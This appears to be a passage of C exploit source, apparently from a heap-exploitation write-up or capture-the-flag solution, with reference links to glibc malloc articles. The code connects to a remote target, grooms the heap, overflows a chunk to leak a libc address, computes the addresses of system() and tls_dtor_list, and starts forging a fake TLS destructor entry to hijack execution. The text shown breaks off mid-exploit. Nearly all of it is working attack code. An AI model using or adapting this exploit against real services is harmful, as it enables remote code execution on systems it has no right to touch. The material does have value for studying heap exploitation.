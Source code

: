 void agent_exit();
 
void select_option(char *opt);
 
struct fake_agent {
	unsigned int  len;
	unsigned long reserved_0;
	unsigned long name;
	unsigned int  id;
};
 
struct fake_tls_dtor_entry {
	unsigned long ret;
	unsigned long func;
	unsigned long obj;
	char		  data[40];
};
 
int sock;
int retrieve = 1;
 
int main()
{
	char output[1024], input[1024];
	struct fake_agent agent;
	struct fake_tls_dtor_entry pown;
	unsigned long leak, system, tls_dtor_list;
	int sock2;
 
	printf("[1] connecting to target ...\n");
	sock = setsock(HOSTNAME, PORT);
	printf("[+] connected\n");
	read(sock, output, 1024);
 
	printf("[2] shaping heap\n");
	agent_create('A', 0xa0 - 4);
	agent_create('B', 0x18 - 4);
	agent_delete(0);
	agent_create('C', 0x410 - 4);
	agent_create('D', 0x400 - 4);
	agent_delete(2);
	agent_delete(1);
 
	printf("[3] overflowing next chunk\n");
	agent_create('E', 0x18 - 2);
	agent_create('F', 0x200 - 4);
	agent_create('G', 0xe0 - 4);
	agent_create('H', 0x18 - 4);
	agent_delete(7);
	agent_delete(5);
	agent_delete(3);
 
	agent_create('\xff', 0x210 - 1);
	agent_show(6, output, sizeof(output));
 
	leak = *((unsigned long *)(output + 240));
	system = leak - SYS_OFFSET;
	printf("[+] system function mapped at 0x%"PRIx64"\n", system);
	tls_dtor_list = leak + TLS_OFFSET;
	printf("[+] tls_dtor_list pointer at 0x%"PRIx64"\n", tls_dtor_list);
 
	printf("[4] overlapping next chunk\n");
	agent.len = 0xff;
	agent.reserved_0 = 0xdeadbeef;
	agent.name = tls_dtor_list;
	agent.id = 6;
	memset(input, 'X', 0x210);
	memcpy(input + 0x210, &agent, sizeof(struct fake_agent));

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article